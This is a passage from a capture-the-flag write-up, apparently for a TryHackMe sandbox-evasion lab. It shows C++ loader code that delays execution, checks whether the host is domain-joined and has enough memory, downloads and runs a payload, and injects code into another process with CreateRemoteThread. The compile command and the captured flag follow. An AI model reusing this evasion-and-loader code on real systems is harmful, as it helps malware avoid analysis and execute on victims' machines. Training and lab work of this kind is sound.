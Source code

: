 ```cpp
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)memAddr, NULL, 0, NULL);
    if (hThread != NULL) {
        CloseHandle(hThread);
    }

    stream->Release();
    CloseHandle(hProcess);
    return 0;
}

int main() {
    Sleep(60000);

    if (!isDomainJoined()) {
        return 0;
    }

    if (!memoryCheck()) {
        return 0;
    }

    sendHTTPRequest();

    downloadAndExecute();

    return 0;
}
```

We can compile with:

```
cl.exe /EHsc /Fe:SandboxEvasion.exe SandboxEvasion.cpp /link urlmon.lib netapi32.lib
```

After we compile, we can execute it:

```
C:\Users\Administrator\Desktop\Materials>.\SandboxChecker.exe SandboxEvasion.exe
```

We can see this after a while:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250523162517.png)

We got our flag:

```
THM{6c1f95ec}
```

# Wrapping Up
